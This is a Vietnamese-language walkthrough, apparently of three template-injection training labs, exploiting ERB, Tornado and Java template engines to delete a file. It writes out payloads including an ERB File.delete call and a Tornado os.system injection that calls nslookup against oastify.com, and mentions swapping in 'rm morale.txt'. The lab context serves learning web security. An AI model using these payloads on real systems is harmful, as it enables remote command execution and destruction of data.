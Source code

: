 ![image](https://github.com/user-attachments/assets/7e64cc62-af5b-4352-8058-ea37de950a0b)

Đây là giao diện, hiện tại thì chưa thấy có gì:

![image](https://github.com/user-attachments/assets/83f29181-d186-4130-94b2-0c1b3582fb8e)

Khi ấn vào cái đầu tiên thì nó hiện ra Unfortunately this product is out of stock, còn cái khác vẫn ra thông tin:

![image](https://github.com/user-attachments/assets/6062dc78-1f1e-4312-a941-96733d25356c)

Và req đây:

![image](https://github.com/user-attachments/assets/b5219a65-535b-4833-986b-c25139be301e)

Sau khi fuzz nhanh qua message thì tôi thấy cái `<%=77*77%>` là nó tính ra được kết quả:

![image](https://github.com/user-attachments/assets/84d24c9b-786f-4405-9cac-073f62e7f67f)

Tôi hỏi chatgpt để lấy lệnh xóa file trong ERB template

![image](https://github.com/user-attachments/assets/d7afb287-cd43-4cd9-b156-163262e1f2e8)

![image](https://github.com/user-attachments/assets/becd0cc2-a85a-4e94-ba23-55aaca0a7cf3)

`<% File.delete("morale.txt")%>`

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/74e78801-b2e7-41dc-a95a-b8da70e57d17)

Giao diện sau khi đăng nhập với wiener đây:

![image](https://github.com/user-attachments/assets/b0571ab2-f8c2-4d2b-91fb-c330329758e0)

Đây là req sau khi chọn cái preferred name:

![image](https://github.com/user-attachments/assets/d634a163-3ab9-46ce-bf09-b43ffe25ccaf)

Do nó tên là blog-post-author-display nên tôi thử vào mấy cái blog post, để lại comment, và tính năng của cái đấy là sẽ hiển thị tên của tôi ở 3 dạng:

![image](https://github.com/user-attachments/assets/85c5f60c-d344-4c68-aa33-7a0eca17ebbf)

Nếu search cái Tornado template thì ra cái payload:

![image](https://github.com/user-attachments/assets/3c3d0ae9-c2fd-4cb6-bd6a-44e0143ed261)

Sau khi tôi chèn `{{77*77}}` thì ra kết quả `{{5929}}`, nó hoạt động:

![image](https://github.com/user-attachments/assets/90020b7b-3871-44d2-8656-9fb42f0d0a55)

Tôi chèn `{%import os%}{{os.system('nslookup oastify.com')}}` vào blog-post-author-display:

![image](https://github.com/user-attachments/assets/99fb986d-d40c-452e-8087-7af9b044b6a0)

Cái này có vẻ là do đang dùng trong mấy cái name các thứ kia thì tôi lại chạy nên nó xảy ra lỗi, thế nên tôi sửa thành `user.first_name}}{%import os%}{{os.system('nslookup oastify.com')}}` nhằm tạo hẳn 1 cái mới

![image](https://github.com/user-attachments/assets/aa06cb6c-4454-435e-aa88-21f7e8a478a0)

![image](https://github.com/user-attachments/assets/ae1520a2-c0aa-4f7c-abce-d9bbf98efeb7)

Đổi sang `rm morale.txt` là xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/aac6ee4c-de09-4681-b809-cdb110a2ff14)

Vào bài post thì có thể sửa được cái template:

![image](https://github.com/user-attachments/assets/aa0d55d3-be78-4dd7-8640-011d71aa4718)

Req đấy đây:

![image](https://github.com/user-attachments/assets/69f33089-6f31-4ee7-8652-12077da42c8d)

Do `${}` có nhiều loại nên không phải cái nào cũng được

![image](https://github.com/user-attachments/assets/78f87e68-e8bd-44e0-97e6-603837e7db98)

Sau 1 lúc mò payload ssti trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) thì ra được cái `${77*77}`:

![image](https://github.com/user-attachments/assets/a0eae38a-5d50-459d-9da4-9340acc8add1)

Sau 1 lúc tìm payload trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), đến đoạn java thì được:

![image](https://github.com/user-attachments/assets/f2f0eb62-faca-4f33-af31-e932d1b3d9a1)

![image](https://github.com/user-attachments/assets/bcb6a021-85e6-4564-8db3-496f158eb00e)

Đổi sang xóa là xong

![image](https://github.com/user-attachments/assets/18c1380e-5120-4575-aedf-4449d84cb3b5)

<h1>---------------------------------------------------------</h1>
<br>


















































